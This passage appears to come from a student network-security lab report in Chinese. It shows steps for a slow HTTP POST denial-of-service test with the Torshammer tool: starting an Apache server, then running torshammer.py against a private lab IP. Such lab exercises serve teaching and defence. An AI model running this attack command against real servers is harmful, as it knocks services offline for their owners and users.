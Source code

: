         ![img10](https://github.com/CUCCS/2018-NS-Group-Public-echo-helloddos/raw/master/img/10.PNG)

	- torshammer实现http post dos
		
		- 开启apache http服务：
		
		```
		/etc/init.d/apache2 start
		```
		
		- 发起攻击：
		
		```
		./torshammer.py -t 192.168.56.102
		```
		